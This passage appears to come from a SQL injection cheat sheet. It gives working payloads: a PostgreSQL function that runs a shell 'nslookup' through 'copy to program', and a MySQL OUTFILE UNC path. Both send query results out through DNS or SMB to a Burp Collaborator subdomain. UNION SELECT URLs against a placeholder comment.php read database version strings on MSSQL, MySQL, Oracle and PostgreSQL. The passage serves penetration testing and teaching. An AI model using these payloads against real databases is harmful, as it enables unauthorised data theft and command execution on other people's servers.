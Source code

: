 <table>
<tbody>
<tr class="odd">
<td><p>create OR replace function f() returns void as $$</p>
<p>declare c text;</p>
<p>declare p text;</p>
<p>begin</p>
<p>SELECT into p (SELECT YOUR-QUERY-HERE);</p>
<p>c := 'copy (SELECT '''') to program ''nslookup '||p||'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net''';</p>
<p>execute c;</p>
<p>END;</p>
<p>$$ language plpgsql security definer;</p>
<p>SELECT f();</p></td>
</tr>
</tbody>
</table>

<span id="anchor-144"></span>MySQL (Windows only)

|                                                                                           |
| ----------------------------------------------------------------------------------------- |
| SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\\a' |

<span id="anchor-145"></span>SQL Database Enumeration Examples

<span id="anchor-146"></span>Discover Database Version (Microsoft SQL,
MySQL)

|                                                                               |
| ----------------------------------------------------------------------------- |
| http://\<someserver\>/comment.php?id=758 union all select 1,2,3,4,@@version,6 |

<span id="anchor-147"></span>Discover Database Version v1 (Oracle)

|                                                                               |
| ----------------------------------------------------------------------------- |
| http://\<someserver\>/comment.php?id=758 union all select 1,2,3,4,v$version,6 |

<span id="anchor-148"></span>Discover Database Version v2 (Oracle)

|                                                                                           |
| ----------------------------------------------------------------------------------------- |
| http://\<someserver\>/comment.php?id=758 union all select 1,2,3,4,banner,6 FROM v$version |

<span id="anchor-149"></span>Discover Database Version v3 (Oracle)

|                                                                                             |
| ------------------------------------------------------------------------------------------- |
| http://\<someserver\>/comment.php?id=758 union all select 1,2,3,4,version,6 FROM v$instance |

<span id="anchor-150"></span>Discover Database Version (PostgreSQL)

|                                                                               |
| ----------------------------------------------------------------------------- |
| http://\<someserver\>/comment.php?id=758 union all select 1,2,3,4,version(),6 |
